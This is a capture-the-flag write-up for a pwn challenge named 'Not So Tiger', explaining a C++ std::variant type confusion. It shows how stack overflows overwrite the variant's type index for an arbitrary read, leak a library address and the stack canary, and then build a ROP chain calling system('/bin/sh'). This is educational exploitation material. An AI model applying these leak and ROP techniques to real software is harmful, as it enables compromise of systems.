


# Not So Tiger

**Category**: pwn \
**Points**: 239 points (14 solves) \
**Author**: ptr-yudai

Bengal, Ocicat, Ocelot, and Savannah Cat look similar.

```
nc pwn.cakectf.com 9004
```

Attachments: `not_so_tiger.tar.gz`

Overview
---

This challenge is a C++ type confusion using `std::variant`. The source main.cpp file is provided. Notably, there are four very similar classes.

```c
class Bengal {
public:
  Bengal(long _age, const char *_name) { set(_age, _name); }
  void set(long _age, const char *_name) {
    age = _age;
    name = strdup(_name);
  }
  char *name;
  long age;
};

class Ocicat {
public:
  Ocicat(long _age, const char *_name) { set(_age, _name); }
  void set(long _age, const char *_name) {
    age = _age;
    strcpy(name, _name);
  }
  char name[0x20];
  long age;
};

class Ocelot {
public:
  Ocelot(long _age, const char *_name) { set(_age, _name); }
  void set(long _age, const char *_name) {
    age = _age;
    strcpy(name, _name);
  }
  long age;
  char name[0x20];
};

class Savannah {
public:
  Savannah(long _age, const char *_name) { set(_age, _name); }
  void set(long _age, const char *_name) {
    age = _age;
    name = strdup(_name);
  }
  long age;
  char *name;
};
```

The main function declares a std::variant:

```
variant<Bengal, Ocicat, Ocelot, Savannah> cat = Bengal(97, "Nyanchu");
```

`cat` is `=` -assignable to a Bengal, Ocicat, Ocelot, or Savannah, and since each class has a `set` method with an identical signature, it can call `set` regardless of the type like this:

```cpp
visit([&](auto& x) {
  x.set(age, name);
}, cat);
```

See the [std::visit docs](https://en.cppreference.com/w/cpp/utility/variant/visit) for more information.

The challenge gives 3 options.

```
1. New cat
2. Get cat
3. Set cat
>> 
```

1. New cat just assigns `cat` to a newly constructed cat of one of the four types
2. Get cat just prints the name and age of the current cat (the std::visit takes care of the polymrophism here... as we'll see later)
3. Set cat calls `set` on the current cat, so you can change the name or age.

Solution
====

There are three stack buffer overflows: 

1. When giving a new cat a name (line 77)
```cpp
char name[0x20]
...
cin >> name;
```

2. When changing a cat's name (line 105)

```cpp
char name[0x20]
...
cin >> name;
```

3. strcpy in Ocicat and Ocelot

```cpp
  void set(long _age, const char *_name) {
    age = _age;
    strcpy(name, _name);
  }
  char name[0x20];
  long age;
```


The problem is there are stack canaries, so we need to leak the canary in order to be able to smash the stack and do ROP.

Ocelot looks like this:

```
  long age;
  char name[0x20];
```

Bengal looks like this:

```
  char *name;
  long age;
```

But how does std::visit know whether to treat the `cat` as a Bengal or Ocelot? Looking at the decompiled code in Ghidra (at 0x00401ed3):



It calls `::index` on the `std::variant` and then uses that to index into a vtable. 

`::index` does the following:




We see that the std::variant leaves 0x28 bytes for whichever one of the Cat classes it is currently, and then at offset 0x28 is the index of the class (0 = Bengal, 1 = Ocicat, 2 = Ocelot, 3 = Savannah -- this is just from the order of the types in the std::variant<...> declaration). 

We come up with the following scenario for a leak:

1. Create an Ocelot with 'age' being a pointer to somewhere we want to leak
2. Use the overflow caused by the `strcpy` of the name in Ocelot's `set` method to overwrite the type index on the std::varaint to be '0' (a Bengal)
3. Read from the Cat...  `char *name` will have the same value as the `age` we controlled... This lets us read from an arbitrary address.


What do we want to leak? In GEF I literally just did the following to see where the canary is in memory:

```
gef➤  canary
[+] Found AT_RANDOM at 0x7fffffffe679, reading 8 bytes
[+] The canary of process 14665 is 0xbd4cbc2d915d3500
gef➤  search-pattern 0xbd4cbc2d915d3500
[+] Searching '\x00\x35\x5d\x91\x2d\xbc\x4c\xbd' in memory
[+] In (0x7ffff7a70000-0x7ffff7a74000), permission=rw-
  0x7ffff7a72f68 - 0x7ffff7a72f88  →   "\x00\x35\x5d\x91\x2d\xbc\x4c\xbd[...]" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffe258 - 0x7fffffffe278  →   "\x00\x35\x5d\x91\x2d\xbc\x4c\xbd[...]" 
  0x7fffffffe328 - 0x7fffffffe348  →   "\x00\x35\x5d\x91\x2d\xbc\x4c\xbd[...]" 
gef➤  
```

0x7ffff7a72f68 is in this RW section that is unlabeled but appears to be immediately before the other libraries. 

```
          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x401000           0x404000     0x3000     0x1000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x404000           0x406000     0x2000     0x4000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x407000           0x408000     0x1000     0x6000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x408000           0x409000     0x1000     0x7000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x409000           0x42a000    0x21000        0x0 [heap]
      0x7ffff7a70000     0x7ffff7a74000     0x4000        0x0 
      0x7ffff7a74000     0x7ffff7a77000     0x3000        0x0 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a77000     0x7ffff7a89000    0x12000     0x3000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a89000     0x7ffff7a8d000     0x4000    0x15000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a8d000     0x7ffff7a8e000     0x1000    0x18000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a8e000     0x7ffff7a8f000     0x1000    0x19000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a8f000     0x7ffff7a9e000     0xf000        0x0 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7a9e000     0x7ffff7b45000    0xa7000     0xf000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7b45000     0x7ffff7bdc000    0x97000    0xb6000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7bdc000     0x7ffff7bdd000     0x1000   0x14c000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7bdd000     0x7ffff7bde000     0x1000   0x14d000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7bde000     0x7ffff7c03000    0x25000        0x0 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7c03000     0x7ffff7d7b000   0x178000    0x25000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7d7b000     0x7ffff7dc5000    0x4a000   0x19d000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dc5000     0x7ffff7dc6000     0x1000   0x1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dc6000     0x7ffff7dc9000     0x3000   0x1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dc9000     0x7ffff7dcc000     0x3000   0x1ea000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dcc000     0x7ffff7dd0000     0x4000        0x0 
      0x7ffff7dd0000     0x7ffff7e66000    0x96000        0x0 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7e66000     0x7ffff7f57000    0xf1000    0x96000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7f57000     0x7ffff7fa0000    0x49000   0x187000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7fa0000     0x7ffff7fa1000     0x1000   0x1d0000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7fa1000     0x7ffff7fac000     0xb000   0x1d0000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7fac000     0x7ffff7faf000     0x3000   0x1db000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7faf000     0x7ffff7fb4000     0x5000        0x0 
      0x7ffff7fc9000     0x7ffff7fcd000     0x4000        0x0 [vvar]
      0x7ffff7fcd000     0x7ffff7fcf000     0x2000        0x0 [vdso]
      0x7ffff7fcf000     0x7ffff7fd0000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7fd0000     0x7ffff7ff3000    0x23000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ff3000     0x7ffff7ffb000     0x8000    0x24000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x2c000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2d000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

But we assume ASLR is on so we need to leak some library address and then add the right offset to compute the address of the canary. (*Then* we can actually leak the canary itself).

I found some random stdlibc++ address at 0x407cf0, and address offsets were determined experimentally by attaching GDB and printing out the address of the canary and the address I was able to leak. I could have used something in the GOT as my base instead.

After I leaked the canary (byte by byte, in case there were any newlines or nulls), it was time to ROP.

I think any of the buffer overflows will work to smash the stack, but I chose to use the first overflow (when giving a new Cat a name).

```
    std::operator<<((basic_ostream *)std::cout,"Name: ");
    std::operator>>((basic_istream *)std::cin,local_a8);
```

Since the canary is at local_20 per the decompiled code...

```
      if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
        return uVar4;
      }
```
... we want to write (0xa8 - 0x20 = 0x88 bytes) of garbage, and then the stack canary. Then we can write our ROP payload.

We already have a libc-leak so just compute some more offsets to get a `system` address and a "/bin/sh" address. The ROP itself is simple:

```
rop += p64(0x0000000000403a33) # pop rdi; ret
rop += p64(bin_sh_addr)
rop += p64(0x403a34) # ret; (for alignment)
rop += p64(system_addr)
```

See [solve-cats.py](solve-cats.py)
